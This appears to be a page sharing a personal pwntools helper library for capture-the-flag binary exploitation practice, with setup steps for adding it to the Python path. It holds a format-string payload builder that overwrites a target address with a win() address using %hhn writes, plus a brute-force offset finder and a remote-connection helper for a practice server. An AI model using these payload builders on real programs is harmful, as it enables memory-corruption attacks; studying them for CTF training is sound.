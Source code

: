 <style>#downloads { display: none !important; }</style>

```python
from pwn import *

global p
global elf

def start(prog, args, port=None, gdb_cmd=None):
    prog = './' + prog

    context.arch = 'i386'
    context.terminal = ['urxvtc', '-e', 'sh', '-c']

    # can be disabled, removes a lot of the annoying output
    context.log_level = 'error'

    if args.REMOTE:
        p = remote('plsdonthaq.me', port)
        elf = ELF(prog)

    elif args.GDB:
        p = gdb.debug(prog, gdb_cmd) 
        elf = ELF(prog)

    else:
        p = process(prog)
        elf = p.elf

    return p, elf

def grab(p, start, end, drop=False):
    p.recvuntil(start)
    return p.recvuntil(end, drop)

def pack(msg):
    print(bytes(msg, 'utf-8'))
    return bytes(msg, 'utf-8')

# overwrites the address at target() with win().
# offset specifies which stack variable you control %{target}$n 
# padding specifies required padding to align the input in the stack variable (one of [0,1,2,3])
def fmtstr_build(win, target, offset, padding):
    payload = b"A" * padding
    payload += p32(target + 0) + p32(target + 1) + p32(target + 2) + p32(target + 3)
    payload += f"%{240 - padding}c".encode()

    for i in range(4):
        byte = win & 0xff
        win >>= 8
        if (byte == 0):
            payload += f"%{offset + i}$hhn".encode()
        else:
            payload += f"%{byte}c%{offset + i}$hhn%{256 - byte}c".encode()

    return payload

def fmtstr_offset(binary, after, padding=0):
    for i in range(1, 20):
        p = process(binary)

        p.sendlineafter(after, f'{b'A' * padding}AAAA%{i}$x'.encode())
        output = p.recvline().decode('utf-8')

        p.close()

        if '41414141' in output:
            return i
```

Then add the folder the lib is stored into your python path:
```bash
export PYTHONPATH="$PYTHONPATH:/folder/location/"
```
You can either run this every time you open a new terminal, or add it to your ~/.bashrc or ~/.zshrc and it will auto-run it everytime.

Finally, you can include this library into your programs with
```python
from lib import *
```